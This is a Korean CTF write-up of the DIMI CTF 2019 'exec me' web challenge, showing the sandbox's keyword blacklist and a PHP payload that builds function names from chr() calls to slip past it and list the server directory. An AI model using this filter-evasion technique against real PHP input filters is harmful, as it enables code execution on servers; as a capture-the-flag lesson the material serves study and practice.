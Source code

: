
2019년 DIMI CTF에 예선에 참가했습니다. 그리고 3771점으로 3등을 하게되었습니다. 전에 비해 발전이 없는 것 같아 매우 실망스러운 마음과 함께 풀이 작성해보겠습니다.

# Web

## exec me (16 solvers, 105pt)

```text
exec me
http://ctf.dimigo.hs.kr:4241

실.행.시.킬.수.있.겠.습.니.까.?
```

문제 설명에 힌트아닌 힌트가 담겨져 있다. 원래 PHP Sandbox형 문제에는 다음과 같은 취약점을 의도하곤 한다.

```php
$a = 'ex'+'ec';
echo $a('ls -al');
```

놀랍게도 저 코드를 실행시키면 정상적으로 폴더의 내용이 출력된다. 필터링을 우회하면서 실행할 수 있는 개꿀인 트릭이다. 하지만 이 문제의 필터링은 다음과 같다.

```php
<?php
// ...
    $filter = ['system', 'exec', '`', '_', '\'', '"', 'file', 'open', 'read', 'eval', 'pass', 'include', 'require', '=', 'glob', 'dir', '/'];
// ...
?>
```

따옴표가 필터링 되어 있어서 문자열은 쓰기 힘들어보이지만 우리에게는 `.`을 사용하라는 힌트가 있었다. `.`은 문자열을 연결하는 연산자이므로 무엇을 연결하면 좋을까?

파이썬의 `chr()` 함수와 똑같은 역할을 하는 함수가 파이썬에도 있다. 이것으로 한글자씩 만들어서 연결하면 될거라고 생각했다.

그래서 현재 디렉토리의 파일들을 출력하는 코드를 `chr()` 함수와 `.`로 짜보았다.

```php
// print_r(scandir('./'));
(chr(118).chr(97).chr(114).chr(95).chr(100).chr(117).chr(109).chr(112))((chr(115).chr(99).chr(97).chr(110).chr(100).chr(105).chr(114))(chr(46).chr(47)));
```

실행결과는 다음과 같다.

![현재 디렉토리의 파일 리스트](execme_1.png)

그러면 플래그의 이름이 `flag_iojasv8h8aghe89rwh3h`라는 것을 알 수 있다.

굳이 또 이런 짓 하지 말고 바로 `/flag_iojasv8h8aghe89rwh3h`로 가보자.

![문제의 플래그](execme_2.png)
